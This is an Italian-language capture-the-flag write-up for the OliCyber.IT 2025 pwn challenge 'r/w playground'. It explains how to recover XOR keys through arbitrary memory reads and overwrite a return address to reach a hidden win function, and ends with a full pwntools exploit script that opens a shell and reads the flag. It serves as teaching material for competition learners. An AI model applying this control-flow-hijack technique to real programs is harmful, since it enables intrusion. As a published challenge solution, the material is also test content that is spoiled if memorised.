


# OliCyber.IT 2025 - Selezione territoriale

## [pwn] r/w playground (16 risoluzioni)

Leggi e scrivi byte dove vuoi! Puoi anche chiedere una shell... forse.

`nc rwplayground.challs.territoriali.olicyber.it 1337`

Autore: Giulia Martino <@Giulia>

## Panoramica

La challenge è un binario molto semplice che si presenta con un menu con tre operazioni disponibili:

```
1. read qword
2. write qword
3. get a shell
```

L'operazione numero 3, purtroppo, non apre davvero una shell. Le operazioni 1 e 2, invece, ci permettono di leggere e scrivere qword ad indirizzi arbitrari in memoria.

Il binario ha il canary attivo, ma non è PIE:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Procedendo con un po' di analisi statica, per esempio utilizzando Ghidra, si può individuare che:

1. All'avvio, la challenge chiama la funzione `init`, nella quale inizializza due variabili globali `read_key` e `write_key`, riempendole ciascuna con 8 byte randomici provenienti da `/dev/urandom`.
2. Successivamente stampa in output l'indirizzo di una variabile locale, ovvero un indirizzo sullo stack.
3. La funzione `read_qword` chiede all'utente a quale indirizzo si voglia leggere, recupera la qword a quell'indirizzo e poi stampa in output la qword xorata con `read_key`.
4. La funzione `write_qword` chiede all'utente a quale indirizzo si voglia scrivere e quale qword, poi scrive a quell'indirizzo la qword xorata con `write_key`.
5. Nonostante l'opzione 3 non apra davvero una shell, la funzione che lo fa è presente comunque nel binario, e si chiama `win`.

## Soluzione

Data la presenza di una win function, la strategia più veloce è quella di sovrascrivere l'indirizzo di ritorno sullo stack con l'indirizzo di `win`. Il binario non è PIE, quindi sarà sufficiente estrarre l'indirizzo di `win` staticamente (ad esempio con `nm`, `gdb` o Ghidra).

E' possibile utilizzare la funzionalità `write_qword` per scrivere direttamente sullo stack sopra all'indirizzo di ritorno. Per farlo serve conoscere:

- l'indirizzo sullo stack a cui è presente l'indirizzo di ritorno
- il valore di `write_key`, perchè la funzionalità `write_qword` la utilizza per xorare il nostro input

E' possibile recuperare velocemente l'indirizzo sullo stack dell'indirizzo di ritorno perchè la challenge ci regala un leak di un indirizzo sullo stack. Utilizzando un debugger come `gdb` e impostando un breakpoint nella funzione `main`, è possibile analizzare lo stack e calcolare l'offset fra il leak e l'indirizzo di ritorno.




```python
In  [1]: hex(0x7ffd9a39f1c8 - 0x7ffd9a39f1b4)
Out [1]: '0x14'
```

Ci sono tanti modi trovare il valore di `write_key`, di seguito un esempio:

1. Individuare un indirizzo che contenga 0. Per esempio, è possibile utilizzare la parte inutilizzata della sezione BSS (ovvero i bytes dopo `write_key`) oppure individuare qualche qword sullo stack che contenga 0.
2. Leggere quell'indirizzo utilizzando la funzione `read_qword`. Essa stamperà lo xor fra il contenuto dell'indirizzo e la `read_key`. Essendo il contenuto uguale a 0, scopriremo il valore di `read_key`.
3. Utilizzare `read_qword` per leggere all'indirizzo di `write_key`: conoscendo `read_key`, potremmo invertire lo xor e scoprire anche `write_key`.

Una volta noto il valore di `write_key`, si potrà utilizzare la funzione `write_qword` per sovrascrivere l'indirizzo di ritorno sullo stack: sarà sufficiente passarle lo xor fra `write_key` e l'indirizzo di `win` per annullare lo xor stesso. A quel punto basterà passare alla challenge un'opzione sconosciuta per far si che il main ritorni e la funzione win venga chiamata.

## Exploit

```python
#!/usr/bin/env python3

import os
import logging
from pwn import *

logging.disable()

exe = context.binary = ELF(os.path.join(os.path.dirname(__file__), 'rwplayground'), checksec=False)
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P'] # Only for tmux

HOST = os.environ.get("HOST", "rwplayground.challs.territoriali.olicyber.it")
PORT = int(os.environ.get("PORT", 1337))

if args.GDB:
    gdbscript = """
    continue
    """
    io = gdb.debug(exe.path, gdbscript=gdbscript)
elif args.LOCAL:
    io = process(exe.path)
else:
    io = remote(HOST, PORT)

def read_qword(where, key=0x0):
    io.sendlineafter(b">", b"1")
    io.sendlineafter(b"where: ", hex(where).encode())
    io.recvuntil(b"value: ")
    num = int(io.recvline().strip(), 16)
    return num ^ key

def write_qword(where, what, key=0x0):
    io.sendlineafter(b">", b"2")
    io.sendlineafter(b"where: ", hex(where).encode())
    io.sendlineafter(b"what: ", hex(what ^ key).encode())

read_key_addr = exe.symbols["read_key"]
write_key_addr = exe.symbols["write_key"]
zero_addr = write_key_addr + 0x8

io.recvuntil(b"A little gift for you... ")
stack_leak = int(io.recvline().strip(), 16)
print(f"stack_leak: {hex(stack_leak)}")
ret_addr = stack_leak + 0x14
print(f"ret_addr: {hex(ret_addr)}")

read_key = read_qword(zero_addr)
print(f"read_key: {hex(read_key)}")
write_key = read_qword(write_key_addr, key=read_key)
print(f"write_key: {hex(write_key)}")

write_qword(ret_addr, exe.symbols["win"], key=write_key)

io.sendlineafter(b">", b"4")
io.sendline(b"cat flag")
res = io.clean(1).decode().strip()
if "flag{" not in res:
    print("nope :(")
else:
    print("flag{" + res.split("flag{")[1])

io.close()
```
